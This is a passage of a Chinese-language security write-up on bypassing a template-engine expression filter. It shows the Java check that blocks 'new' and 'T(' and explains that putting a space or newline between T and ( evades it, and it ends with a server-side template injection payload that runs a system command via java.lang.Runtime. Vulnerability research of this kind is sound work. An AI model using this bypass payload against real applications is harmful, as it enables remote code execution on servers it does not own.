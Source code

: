 ```java
                    && c == NEW_ARRAY[ni]
                    && (ni > 0 || ((n + 1 < explen) && Character.isWhitespace(expression.charAt(n + 1))))) {
                ni++;
                if (ni == NEW_LEN && (n == 0 || !Character.isJavaIdentifierPart(expression.charAt(n - 1)))) {
                    return true; // we found an object instantiation
                }
                continue;
            }

            if (ni > 0) {
                // We 'restart' the matching counter just in case we had a partial match
                n += ni;
                ni = 0;
                if (si < n) {
                    // This has to be restarted too
                    si = -1;
                }
                continue;
            }

            ni = 0;

            if (c == ')') {
                si = n;
            } else if (si > n && c == '('
                        && ((n - 1 >= 0) && (expression.charAt(n - 1) == 'T'))
                        && ((n - 1 == 0) || !Character.isJavaIdentifierPart(expression.charAt(n - 2)))) {
                return true;
            } else if (si > n && !(Character.isJavaIdentifierPart(c) || c == '.')) {
                si = -1;
            }

        }

        return false;

    }
```

主要的作用就是倒序检查是否存在`new`和`T(`，如果存在就抛出异常。



这里的bypass思路是三梦师傅发现`T`和`(`中间存在空格的话，仍然可以成功调用`T()`。。panda师傅fuzz发现换行等也可以。。。。（有之前CTFfuzz的感觉了），所以bypass后的POC就很简单了：

```java
__${T (java.lang.Runtime).getRuntime().exec("calc")}__::feng
```


